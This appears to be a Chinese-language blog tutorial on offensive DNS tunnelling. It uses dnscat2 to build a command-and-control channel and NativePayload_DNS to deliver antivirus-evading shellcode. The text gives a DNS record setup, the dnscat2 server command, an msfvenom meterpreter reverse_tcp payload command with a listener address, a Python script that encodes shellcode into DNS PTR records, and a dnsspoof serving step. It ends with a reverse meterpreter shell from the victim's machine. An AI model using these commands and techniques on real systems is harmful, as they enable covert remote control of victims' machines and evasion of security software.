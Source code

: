 ```yaml
---
title: 基于常规DNS隧道通信利用
date: 2019-07-01 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。

---
```


## DNS Tunnel可以分为直连和中继两种。

直连就是用目标机器直接和指定的目标DNS Server进行UDPsocket套接字连接，这种方式速度快，但致命的弱点就是直接将IP暴露在流量中，且如果客户端指定了信任的DNS解析服务器，那么将会被白名单限制在外。

中继是通过DNS迭代查询实现的中继隧道，生存能力强，隐蔽性更高，但同时因为数据包到达目标DNS Server前需要经过多个节点，所以速度上慢很多。

中继过程中的一个关键点是对DNS缓存机制的规避，因为如果解析的域名在Local DNS 中已经有缓存时，Local DNS 就不会继续发送数据包。所以在构造请求中，每次查询的域名需要不同或者是已过期的。

![img](https://www.yunzhijia.com/microblog/filesvr/5d654c6628011f5f6b5e56e4)

# DNSCAT2

DNSCAT2用于通过DNS协议创建恶意软件的命令和控制通道（C＆C）。它由用Ruby编写的服务器和用C编写的客户端组成。

一开始，需要设置一个NS记录指向自己的子域名，再设置一个A记录指向自己部署server端的服务器地址。如下图的设置：

![img](https://www.yunzhijia.com/microblog/filesvr/5d654b0590144e41c4b34961)

解析配置完成后，在服务端nc监听下udp的53端口，再回到windows机器ping下ns域名,如果收到回显,证明解析成功。

![img](https://www.yunzhijia.com/microblog/filesvr/5d654b2628011f5f6b5e564b)

接下来，在server端开启隧道：

ruby./dnscat2.rb dnscat.[domain] –no-cache
[domain]是刚设置的ns记录的子域名，–no-cache代表不进行缓存

![img](https://www.yunzhijia.com/microblog/filesvr/5d654b4990144e41c4b34984)

我们以相同的方式启动客户端，并看到会话已经建立。

![img](https://www.yunzhijia.com/microblog/filesvr/5d654b7332f2ca3c6587cf34)

回到服务端使用shell进行命令控制:

![img](https://www.yunzhijia.com/microblog/filesvr/5d654bcd90144e41c4b349be)

在客户端抓取流量包可以看到Dnscat2 主要进行了TXT,CNAME,MX查询。

![img](https://www.yunzhijia.com/microblog/filesvr/5d654c026d67ff2f280a2cf3)

并且dnscat2客户端没有直接向我的C2服务器发送DNS查询，相反，受害者的系统正在与标准可信DNS服务器进行通信并转发至该域的权威DNS服务器，

正如下捕获的数据包, 受害者的本地DNS服务器正在尝试解析“dnscat.[domain].cn”域中的主机名，

![img](https://www.yunzhijia.com/microblog/filesvr/5d654c4932f2ca3c6587cf8f)

# NativePayload_DNS

NativePayload_DNS 是利用DNS隧道来传输shellcode，在内存中执行，进行分离免杀，躲避杀软的静态检测。

项目地址
https://github.com/DamonMohammadbagher/NativePayload_DNS

这里对C#脚本使用csc.exe进行编译可执行文件exe：
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out: Dnsbceon.exe NativePayload_DNS.cs

实现原理：
查看c#源代码，具体分以下三步来实现分离式免杀执行shellcode，通过循环遍历请求DNS中的PTR记录，将返回的域名进行拼接提取,最终调用kernel32申请内存执行shellcode。

![img](https://www.yunzhijia.com/microblog/filesvr/5d44122832f2ca7e75d5405b)

首先使用MSF生成shellcode,如下:

```
Msfvenom --platform windows --arch x64 -p windows/x64/met
erpreter/reverse_tcp lhost=10.10.11.134 lport=4444 -f c > /root/payload.txt
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d4413156d67ff04fe362070)

然后将 shellcode 制作成 IP+地址的格式
Ipaddress “{payload}.domain.com”
1.1.1.0 “0xfc0x480x830xe40xf00xe8.1.com”
1.1.1.1 “0xbc0xc80x130xff0x100x08.1.com”
……

这里使用python进行格式化，结果如下:

```
#! /usr/bin/env python2.7
# -*- coding:UTF-8 -*-
a = ''
f = open("payload.txt", "rb")
line = f.readlines()[0:]
f.close()
for lines in range(len(line)):
    ipls = '1.1.1.%s' % lines
    shellcode = line[lines].replace(";","").strip().rstrip('"')+".1.com"+'"'
    text = ipls + " " + '"'+ "0x"+shellcode.lstrip('"')
    a += text.replace("\\","0")+"\n"
fn = open("dns.txt", "wb")
fn.write(a)
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d44138f90144e1859abbf23)

在Kali上 使用dnsspoof 创建DNS服务器，并在MSF进行监听
dnsspoof -i eth0 -f dns.txt

![img](https://www.yunzhijia.com/microblog/filesvr/5d4413fe28011f3c5371f1bb)

通过nslookup查询可以查询到对应的shellcode

![img](https://www.yunzhijia.com/microblog/filesvr/5d44140128011f3c5371f1be)

windows执行编译好的文件，由于使用DNS反向解析，速度相对来说较慢，
经过漫长的等待成功弹回meterpreter。

![img](https://www.yunzhijia.com/microblog/filesvr/5d44144332f2ca7e75d544bf)
